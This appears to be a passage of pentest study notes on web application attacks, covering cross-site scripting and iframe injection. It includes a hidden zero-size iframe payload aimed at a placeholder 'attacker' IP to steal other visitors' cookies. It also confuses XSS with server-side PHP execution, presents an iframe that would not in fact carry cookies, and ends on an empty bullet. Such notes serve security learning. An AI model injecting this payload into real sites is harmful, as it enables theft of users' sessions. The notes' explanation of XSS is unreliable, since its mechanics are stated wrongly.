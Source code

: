 # 7. Web App Attacks

* Most of the attacks in web are generally from inside of the organization.
* And most of the attacks are web app attacks.

## 1\) Cross Site Scripting \(XSS\) 

* Uses of XSS attacks
  * cookie stealing
  * authentication bypass
  * redirecting the victim’s browser to a malicious HTML page
  * etc
* XSS vulnerabilities are caused due to unsanitized user input that is then displayed on a web page in HTML format.
* Like injecting a malicious PHP code inside a PHP page. Such that the malicious code runs on the server.
* XSS vulnerabilities go hand in hand with client side attacks.
* Usually remote shell got in such way of exploit have user "www-data".

### 1.1 Browser Redirection and IFRAME Injection

* Given an environment which is not the user input are not sanitized.
* We first inject malicious code in the webpage as a script. The webpage could be using javascript, PHP, etc. We inject our code in these scripts.
* To steal **cookie or such information of other client** browsing the same website. We inject a reverse connection scripts
  * `<iframe SRC="http://192.168.1.1:80/report" height = "0" width = "0"></iframe>`
  * where 192.168.1.1 is the attacker system IP address for reverse connection.
* 
